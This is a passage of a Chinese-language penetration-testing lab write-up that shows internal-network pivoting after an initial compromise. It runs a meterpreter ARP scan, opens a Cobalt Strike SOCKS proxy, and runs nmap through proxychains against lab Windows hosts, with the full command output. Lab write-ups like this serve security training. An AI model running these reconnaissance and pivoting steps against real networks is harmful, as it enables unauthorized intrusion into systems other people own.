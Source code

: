 ## 进一步内网渗透

```shell
meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.52.0/24

[*] Running module against STU1
[*] ARP Scanning 192.168.52.0/24
[+]     IP: 192.168.52.2 MAC 00:50:56:c0:00:02 (VMware, Inc.)

[+]     IP: 192.168.52.138 MAC 00:0c:29:f1:dd:6b (VMware, Inc.)
[+]     IP: 192.168.52.143 MAC 00:0c:29:ea:57:f6 (VMware, Inc.)
[+]     IP: 192.168.52.141 MAC 00:0c:29:d0:87:62 (VMware, Inc.)
```
或者使用meterpreter > arp -a
发现存活主机。

创建代理，进一步攻击内网靶机
在CS的becon中执行
```
socks 1024
```
更改/etc/proxychains.conf,使用namp扫描目标机器ROOT-TVI862UBEH(192.168.52.141)端口
```shell
oot@kali:~/sec-tools/Cobalt Strike 4.0# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 192.168.52.141
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 11:05 EDT
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:22-<--denied
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:135-<><>-OK
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:80-<--denied
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:445-<><>-OK
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:139-<><>-OK
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:135-<><>-OK
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:139-<><>-OK
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:445-<><>-OK
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:135-<><>-OK
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.141:139-<><>-OK
Nmap scan report for 192.168.52.141
Host is up (0.75s latency).

PORT    STATE  SERVICE      VERSION
22/tcp  closed ssh
80/tcp  closed http
135/tcp open   msrpc        Microsoft Windows RPC
139/tcp open   netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open   microsoft-ds Microsoft Windows 2003 or 2008 microsoft-ds
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.26 seconds

oot@kali:~/sec-tools/Cobalt Strike 4.0# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 192.168.52.138
map scan report for 192.168.52.138
Host is up (8.8s latency).

PORT    STATE  SERVICE      VERSION
22/tcp  closed ssh
80/tcp  open   http         Microsoft IIS httpd 7.5
135/tcp open   msrpc        Microsoft Windows RPC
139/tcp open   netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open   microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: GOD)
Service Info: Host: OWA; OS: Windows; CPE: cpe:/o:microsoft:windows

```